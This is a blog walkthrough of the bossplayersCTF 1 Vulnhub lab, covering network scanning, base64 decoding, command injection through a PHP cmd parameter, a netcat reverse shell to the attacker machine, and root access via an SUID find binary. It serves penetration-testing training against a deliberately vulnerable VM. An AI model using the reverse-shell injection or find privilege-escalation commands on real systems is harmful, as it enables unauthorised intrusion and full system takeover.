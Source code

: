 ```yaml
---
title: 'bossplayersCTF 1: Vulnhub Walkthrough'
date: 2019-10-09T08:08:00+01:00
draft: false
---
```


bossplayersCTF 1 VM is made by [Cuong Nguyen](https://sudocuong.com/). This VM is a purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing. It is of intermediate level and is very handy in order to brush up your skills as a penetration tester. The ultimate goal of this challenge is to get root and to read the root flag.

Level: Intermediate

Since these labs are available on the Vulnhub Website. We will be downloading the lab file from this [link](https://www.vulnhub.com/entry/bossplayersctf-1,375/).

### **Penetration Testing Methodology**

**Network Scanning**

*   netdiscover
*   nmap port scan

**Enumeration**

*   Browsing HTTP Service
*   Performing Directory Bruteforce
*   Decoding Encoded Text

**Exploiting**

*   Command Injection

**Privilege Escalation**

*   SUID on find command

**Capture the flag**

### **Walkthrough**

### **Network Scanning**

The first step to attack is to identify the target. So, identify your target. To identify the target, we will use the following command:

```
netdiscover
```

![](https://i0.wp.com/1.bp.blogspot.com/-VHsvd-HZoBo/XZ1rqz5xPnI/AAAAAAAAg4M/_D2WaNClQFoix3e71KoeDx1EhommgRjTACLcBGAsYHQ/s1600/1.png?w=687&ssl=1)

Now we will run an aggressive port scan using nmap to gain the information about the open ports and the services running on the target machine.

```
nmap -A 192.168.1.107
```

We learned from the scan that we have the port 80 open which is hosting Rocket httpd service, and we have the port 22 open. This tells us that we also have the OpenSSH service running on the target machine.

![](https://i2.wp.com/1.bp.blogspot.com/-MC1SuP6tklg/XZ1rsJcLbSI/AAAAAAAAg4c/3PhPv_tAflcK0wB81IAPZOorYQ1Dh4iMQCLcBGAsYHQ/s1600/3.png?w=687&ssl=1)

### **Enumeration**

Further, we need to start enumeration against the host machine, therefore we navigated to a web browser for exploring HTTP service. Here we have the description of the machine that tells us that this is an extremely easy CTF. It is for those who are getting started with the CTFs. It also tells us that there might be rabbit holes. So we will try to avoid those.

![](https://i2.wp.com/1.bp.blogspot.com/-PgrwiX3UxAk/XZ1rsolgTkI/AAAAAAAAg4g/LwKFAksIoZAthCPfwrbVC7UcXccxFcuFACLcBGAsYHQ/s1600/4.png?w=687&ssl=1)

Now as the convention, we checked the source code of the webpage in the hope to get some valuable hint to move forward with our enumeration. Here, we got an encoded value. This might lead us somewhere.

![](https://i1.wp.com/1.bp.blogspot.com/-wU0FooJlCeY/XZ1rtA3GcXI/AAAAAAAAg4k/b141fkFz8eImxenxwCcGbY4JK2nKE_9HACLcBGAsYHQ/s1600/5.png?w=687&ssl=1)

But we wanted to further enumerate with a directory bruteforce. To do this we will use the dirb. With this directory bruteforce scan, we got a robots.txt file. On browsing it on our web browser we see that we have another encoded text titled as super-secret password. We decoded it to find a troll message “lol try harder bro”. This might be the rabbit hole mentioned earlier. 

```
drib http://192.168.1.107/
```

![](https://i0.wp.com/1.bp.blogspot.com/-66qGqwwKfuc/XZ1rtgKO_PI/AAAAAAAAg4o/_kPXUQ6y4SkhCskIIel7YSzSiHd6VrfSgCLcBGAsYHQ/s1600/6.png?w=687&ssl=1)

We went back to the commented encoded text we found earlier in the Source code of the webpage. It seemed like Base64, so we tried to decode it using base64 command. It gave back another encoded text. This also seemed like Base64, so we decoded it again. This gave back another encoded text. This is getting really tiring. Now we decoded it again to find workinginprogress.php. Not this seems important. All those decodings were not gone for waste.

```
echo "WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK" | base64 -d  
ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K  
echo "ZDI5eWEybHVaMmx1Y0hKdlozSmxjM011Y0dod0NnPT0K" | base64 -d  
d29ya2luZ2lucHJvZ3Jlc3MucGhwCg==  
echo "d29ya2luZ2lucHJvZ3Jlc3MucGhwCg==" | base64 -d
```

![](https://i2.wp.com/1.bp.blogspot.com/-Igj9aNM8OAk/XZ1ruAo34NI/AAAAAAAAg4s/3sBjKiueo5ImK4hopl96BQX_ifwg-q1ygCLcBGAsYHQ/s1600/7.png?w=687&ssl=1)

We tried to open this file on our Web Browser as shown in the image given below. It was a checklist of some kind. It showed that Linux Debian is installed, Apache2 is installed and PHP is also installed. But the stuff that’s not completed tests the ping command and fix the privilege escalation. These seem like major hints.  

```
http://192.168.1.107/workinginprogress.php
```

![](https://i0.wp.com/1.bp.blogspot.com/-LZDCFlMHKII/XZ1ruj8SP2I/AAAAAAAAg4w/khQiNGwH_B8hbL0bgsJAbvlM1TwIWKqKACLcBGAsYHQ/s1600/8.png?w=687&ssl=1)

### **Exploiting**

As it said to test the ping command, it got us thinking that this might, in fact, be command injection. To further inspect this suspicion, we tried to run the id command through the URL as shown in the image given below. This made our suspicion true. This, in fact, is Command Injection.  

```
http://192.168.1.107/workinginprogress.php?cmd=id
```

![](https://i1.wp.com/1.bp.blogspot.com/-8c_jm7PYvu0/XZ1ru0kikkI/AAAAAAAAg40/SrHCux5ScnwfiTco771xNu5s075bC5qywCLcBGAsYHQ/s1600/9.png?w=687&ssl=1)

To exploit command injection, we will be using the netcat invoke shell one-liner. Before running that we need a netcat listener to receive the shell that is going to be invoked.

```
nc -lvp 1234
```

After running the listener, we went back to our browser, and here instead of the id command that we ran previously, it was time to run the shell invocation command. Here we invoked bin/bash shell to the IP Address 192.168.1.105 \[Kali Linux\]. With the port that we started the listener with.

```
http://192.168.1.107/workinginprogress.php?cmd=nc -e /bin/bash 192.168.1.105 1234
```

![](https://i0.wp.com/1.bp.blogspot.com/-2qmaVnuHft4/XZ1rqwNzNWI/AAAAAAAAg4U/BbMwQzaqnwshiZA9ZzY3AnJJQhUncJUYgCLcBGAsYHQ/s1600/10.png?w=687&ssl=1)

Now, we went back to our terminal, where we ran the netcat listener. We see that we have successfully got a session. But the shell that came with the session is an improper one. So in order to convert it into a proper shell, we ran the python one-liner. This gave us a proper shell. As soon as we got this shell, we saw that the session that we got is of user www-data. This means that this is an unprivileged shell. We will have to work out a way to that elevated privilege shell. For this, we start to enumerate the target machine through the shell we got.

```
python -c 'import pty;pty.spawn("/bin/bash")'  
find / -perm -u=s -type f 2>/dev/null
```

As a part of our enumeration procedure, we ran the find command with -perm parameter to search for any file having SUID permissions. The find command itself has this permission. This made our job a little easy.

![](https://i2.wp.com/1.bp.blogspot.com/-e78FQ0mxYaM/XZ1rq-SyCQI/AAAAAAAAg4Q/5yEBgWiI_WQz2EiQyxsUlAmV7LnywND6gCLcBGAsYHQ/s1600/11.png?w=687&ssl=1)

### **Privilege Escalation**

We ran the find command and tried to invoke the /bin/sh shell using it as shown in the image given below. This gave back us a root shell. We confirmed this is a root shell by running the id command.

```
find . -exec /bin/sh -p \\; -quit   
id   
cd /root   
ls   
cat root.txt
```

Now we wanted to enumerate for the Root Flag. We went into the home directory of the root user. Here we found the file named root.txt. On opening it we got a base64 encoded text. It said “congratulations”. This concludes this CTF Challenge.

**NOTE: Here we ran typed the command as simply we enter. The shell however just prints what we type again with it. So it gave the look as shown in the image.**

![](https://i2.wp.com/1.bp.blogspot.com/-o6Y47DxahsE/XZ1rrk2ZA1I/AAAAAAAAg4Y/ITXhxZEmxT0ILOq9beBHTvvshc3n4IzaQCLcBGAsYHQ/s1600/12.png?w=687&ssl=1)

**Author: Pavandeep Singh** is a Technical Writer, Researcher and Penetration Tester Contact [**here**](https://www.linkedin.com/in/pavandeep-singh-6b1074132)

The post [bossplayersCTF 1: Vulnhub Walkthrough](https://www.hackingarticles.in/bossplayersctf-1-vulnhub-walkthrough/) appeared first on [Hacking Articles](https://www.hackingarticles.in).

  
  
from Hacking Articles https://ift.tt/35jf8iK